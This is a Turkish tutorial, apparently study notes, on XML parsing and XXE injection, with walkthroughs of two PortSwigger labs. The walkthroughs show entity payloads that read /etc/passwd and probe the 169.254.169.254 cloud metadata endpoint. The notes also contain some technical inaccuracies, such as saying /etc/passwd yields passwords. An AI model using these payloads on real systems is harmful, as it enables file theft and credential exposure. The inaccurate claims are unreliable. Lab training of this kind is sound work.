<h1 align="center">XML Parserlar ve XML External Entity (XXE) Injection</h1>


# XML (Extensible Markup Language)

Genişletilebilir İşaretleme Dili. Verileri düzenli, taşınabilir ve okunabilir şekilde saklamak ya da paylaşmak için kullanılan bir veri formatıdır. İlk olarak 1996'da ortaya atılmıştır. Verileri belirli bir formatta tutabilir ve yapısal olarak Httpye benzemektedir.  Örn;

```
<user>
  <name>Ali Yılmaz</name>
  <age>30</age>
  <department>IT</department>
</user>
```

XML çağdaşlarına göre biraz daha eskidir ancak hala kullanılır. Programlama dilleri temelinde veritabanları dikkat çekmektedir. Devamlı çeşitli veritabanları ile etkileşim halinde olunur. Bu veri tabanları  **Relational Database Management System (RDBMS)** yani **İlişkisel Veritabanı Yönetim Sistemi** olarak kabul edilir. Örn; ***MySQL, PostgreSQL, MSSQL, Oracle, Sqlite***.

## XML Parsing(XML Ayrıştırma)

XML belgesinin okunması ve verilerin buradan yapılandırılmış bir biçimde çıkarılması işlemidir. Örneğin yukarıdaki örneği **python** ya da başka bir programlama diliyle dışarı çıkarabiliriz.


## XML Nerede?



Görselde iki tane web uygulaması örnek veriliyor. Burada bu iki web uygulamasının da birbirinden farklı olduğu varsayılmış ve bu bilgilere dayanarak iki uygulama da etkileşim halindedir. Ancak bu iki uygulamanın etkileşim halinde olabilmesi için ortak bir protokol kullanması gerekir(görselde bu protocol **http**dir.) Aynı zamanda **Data(veri)**'nın da iki uygulamanın anlayabileceği bir formatta olması gerekir. İşte burada da **XML** devreye girmektedir. **Yalnız, bir web uygulamasının **XML**'i kullanabilmesi için onu parse(ayrıştma) etmesi gerekir.**

> Günümüzde **XML** veri formatı e ticaret sitelerinden, uluslararası bankacılık sistemi Swift'e kadar geniş bir alanda   kullanılmaktadır.

## XML DTD (XML Document Type Definition(XML Belge Tipi Belirleme))

Bir XML Belgesinin yapısını ve kurallarını belirler. XML dosyasının nasıl yazılacağını gösteren bir rehber gibi düşünebiliriz Örneğin aşağıda bir XML dosyası ve onun beslendiği bir **DTD** var;

```XML
<?xml version="1.0"?>
<!DOCTYPE person SYSTEM "person.dtd"> <!--Burada XML belgesinin beslendiği bir döküman-->
<person>
  <name>Ali</name>
  <age>30</age>
</person>
```
Yukarıdaki XML dosyasında yukarıda da örneklediğimiz **ali** isimli birinin verileri ve bir DTD dosyası var. Yukarıda çağrılan DTD dosyası da aşağıda;

```DTD
<!ELEMENT person (name, age)>
<!ELEMENT name (#PCDATA)>
<!ELEMENT age (#PCDATA)>
```

Görüldüğü üzere person, name, ve age anahtar kelimeleri aslında çeşitli veriler taşıyor. Örneğin person, name ve age'i içinde barındırıyor. name ve age karakterleri ise içerisinde #PCDATA(parsed character data(ayrılmış karakter verisi)) isimli bir veriyi taşımaktadır. Yani bu anahtar kelimelerin bir fonksiyonu var. Bu anahtar kelimeler de XML dosyasının dışarısında tanımlanmış ve dışarıdan XML dosyasının içine **<!DOCTYPE person SYSTEM "person.dtd">** şeklinde aktarılıyor.

### DTD Entities(DTD Varlıkları)


```XML
<?xml version="1.0"?>
<!DOCTYPE person [<!ENTITY writer SYSTEM "tolkien">]> <!--Burada XML belgesinin beslendiği bir Entity-->
<person>
  <to>&writer;</to>
  <name>Ali</name>
  <age>30</age>
</person>
```

Entity Decleration(Varlık Deklerasyonu)nın yaptığı şey aslında yukarıdaki örnekte writer yazan yere otomatik olarak **tolkien** stringini eklemektir. Bu da XML belgesinde kullanılabilecek bir yöntem. DTD'ye benzer bir işlem ancak **<!ENTITY entity-name "entity-value">** şeklinde belirtiliyor. (**&writer;** *şeklinde çağrılma sebebi aslında referans olarak bir adresten alınmasıdır. Böylece hafızada daha az yer tutuyor ve daha optimize çalışıyor ancak buralar çok önemli değil şimdilik.*)


# XXE(XML External Entity Attack(XML Harici Varlık Saldırısı))

XXE'nin devreye girdiği kısım aslında XML'in miras aldığı verileri internete taşımasıyla ilgilidir. Örneğimize dönelim ve bir kaç değişiklik yapalım;

```XML
<?xml version="1.0"?>
<!DOCTYPE person [<!ENTITY writer SYSTEM "http://x.com/">]> <!--Burada XML belgesinin beslendiği bir Entity-->
<person>
  <to>&writer;</to>
  <name>Ali</name>
  <age>30</age>
</person>
```

Evet görüldüğü üzere **writer** **keyword**ünün(anahtar kelime) beslendiği veri bir web adresi de olabilir. Bu durumda aslında veri tabanı ile internet arasında bir bağlantı oluşuyor ve XXE'de burada devreye giriyor. Yani uygulama internetle ilişkili hale geliyor bu fonksiyonu kullandığından dolayı. XXE Injection ise bu veriyi sızdırıldığı halinde ortaya çıkar. Yani yukarıdaki kod elimize geçtiği halde **x.com** websitesi yerine istediğimiz bir websitesini yazabilir(bağlandığımız sunucu dahil) hale geliriz. 


## Alıştırma

* https://portswigger.net/web-security/xxe/lab-exploiting-xxe-to-retrieve-files

* Bu alıştırmada 'Check Stock' isimli bir özellik olduğundan bahsediyor. Bu özellik XML girdilerini parse ediyormuş ve response olarak beklenmedik sonuçları da dönüyormuş. Yani bu cümleden de anlayabiliriz ki burada XXE olduğundan bahsedebiliriz. Açıklamaya devam ediyor ve diyor ki; alıştırmayı çözmek için XXE enjekte et ve dışarıya **/etc/passwd** adresindeki içerikleri çıkart.(/etc/passwd bu adres ilgili dosyadaki şifreleri çıkartır. tam hali file:////etc/passwd'dir.)

* Access the Lab diyelim ve devam edelim;


* Şimdi bu ekranda ilk bulmamız gereken şey 'Check Stock' isimli bir özellik. Çünkü bu özelliğin aslında XML parsing yaptığı bize söylenmişti dolayısıyla bunu arayalım; 


* **Your Virtual Journey Starts Here** yazan yere tıkladığımızda bahsettiğimiz **Check Stock** özelliği burada karşımıza çıkacaktır. **Check Stock** tuşuna basalım ve Burpsuite uygulamasının **Proxy-->HTTP History** kısmına gelelim. Burada az önce yaptığmız Check Stock sorgusunu aramalıyız;



* Buradaki **Requesti** **Repeater'a** yollayalım ve o sekmeye geçelim;



* Send tuşuna basmadan önce 2 sayısının yanına a yazalım ve send tuşuna basalım;



* Görüldüğü üzere burada bir **input validation(girdi doğrulama)** var. **Product Id** kısmına girilecek değerin **integer** olması isteniyor. Yanlış girildiğinde ise **response** kısmında bize bir geri dönüş oluyor. İşte burada aslında sunucunun bize bu geri dönüşünü verileri çekmek için kullanacağız. Tıpkı **error based sql injection**'da olduğu gibi. Bunu yapmak içinde devam ediyoruz;


* Evet aşağıdaki satırda xml parsing yapıldığını görüyoruz. Yukarıdaki örnekte **<!DOCTYPE person [<!ENTITY writer SYSTEM "http://x.com/">]>** yazabildiğimizi aklımıza getirelim. Bu işlem burada da çalışacaktır. Ancak az bir şey değiştirmeliyiz. Bu kodu parsingten önceki kısma yapıştıralım ve x.com yazan yere file:////etc/passwd yazalım ve son hali; <!DOCTYPE person [<!ENTITY writer SYSTEM "file:////etc/passwd">]> olsun. Ardından bunu gösterdiğim yere yapıştıralım;



* Kodun son hali bu şekilde ve aynı zamanda product Id yazan kısma **&writer;** yazdık ki referans olarak çağırdığımız içeriği görebilelim(Çünkü id yerine integer değer girmediğimizde error veriyordu. Ancak error verirken geri dönüş olarak yazdığımız değer de geliyordu. İşte bu değer yerine **&writer;** yazdığımızda aslında referans olarak çağırdığımız değer gelecek ve o referans değeri de adrese işaret ettiğinden o adresteki verileri görebileceğiz.). Bunlar tamamlandıktan sonra **Send** tuşuna basalım ve Response kısmında artık şifreleri görebiliyor olacağız;



* Böylelikle alıştırma da tamamlanmış oluyor.

* Burada yaptığımız aslında bir özellik için veri çeken sitenin XML parsing'i yapışını kendi lehimize kullanmak oldu;



* Yukarıdaki resimde de görüleceği üzere uygulamanın tek yaptığı product id'lerini xml parsing yaparak çağırmaktı. Ancak biz xml'e ulaşabildiğimizden onun dtd özelliğinden yararlanarak bir entity oluşturduk ki referans olarak da olsa verileri görebilelim. Bu şekilde **&writer;** yazdığımız için aslında **&writer;**'a karşılık gelen **file:////etc/passwd** verilerinin olduğu adresi görebiliyor olduk. Ancak dikkat etmeliyiz ki bunu kod hata verdiği halde görebildik; 



* Görüldüğü üzere **Invalid Product Id(yanlış ürün kimliği)** hatası vermesine rağmen bize referans olarak çağrılan içerikleri gösterdi. Bu aslında XML açığından faydalanmamız ile mümkün oldu. 

## Alıştırma #2

* *Sözlük*
  * metadata: Veri içinde veri demek. Başka veriler hakkında açıklayıcı bilgiler barındırır.  

* https://portswigger.net/web-security/xxe/lab-exploiting-xxe-to-perform-ssrf Bu alıştırmaya gelelim.

* Yine bir önceki alıştırma gibi burada da **Check Stock** isimli bir özellik var ve yine xml parsing yapılmış. 

* Bu alıştırma sitesinde **metadata** bulunan 'http://169.254.169.254/' şeklinde bir adres tanımlanmış. Bu adresin aynı zamanda veri getirmek için de kullanılabileceği bize söylenmiş. Yani buradan xxe'yi bu adres üzerinden yapacağımız yorumunu yapabiliriz.

* Access the Lab diyerek devam edelim;


* Çıkan ekrandan herhangi bir ürüne gelip **'View Details'** tuşuna basalım;


* Çıkan ekranda **Check Stock** tuşuna basalım ve burpsuite üzerinden bu sorguyu yakalayalım;



* Burada sorgumuzu görebiliyoruz ve yine aşağıda xml parserlar görüyoruz. Bu sorguyu Repeater'a yollayalım ve o sekmeye geçelim;



* Evet şimdi yine geçen alıştırmada yaptığımız gibi **<!DOCTYPE person [<!ENTITY writer SYSTEM "file:////etc/passwd">]>** kodunu yazacağız. Ancak en son kısma alıştırmadan önce bize söylenen **http://169.254.169.254/** kodunu yazacağız. Bununla birlikte son kodun son hali **<!DOCTYPE person [<!ENTITY writer SYSTEM "http://169.254.169.254/">]>** oluyor. Şimdi bu kodu geçen seferki gibi yapıştıralım;



* Bir aşağısındaki 2 yazan yere yine **&writer;** yazalım ki  xml parsing yapıp girdiğimiz adresten veri çekebilelim. Yazdıktan sonra **Send** diyelim;



* Response ekranında; **"Invalid product ID: latest"** çıktısı geldi. Burada aslında ürün idsinin yanlış olduğunu söylüyor ve onun yanında **latest** isminde bir veri çıkartmış bu veriyi de **http://169.254.169.254/latest** şeklinde ekleyelim ve tekrar **Send** tuşuna basalım;



* Evet bu sefer de **meta-data** verisi geldi. Bunu da **http://169.254.169.254/latest/meta-data** şeklinde ekleyelim. Bir sonrakinde de verirse(ki verecek) yine o vereceği veriyi de yaptığımız gibi son kısma ekleyelim ve gidebildiğimiz kadar gidelim;

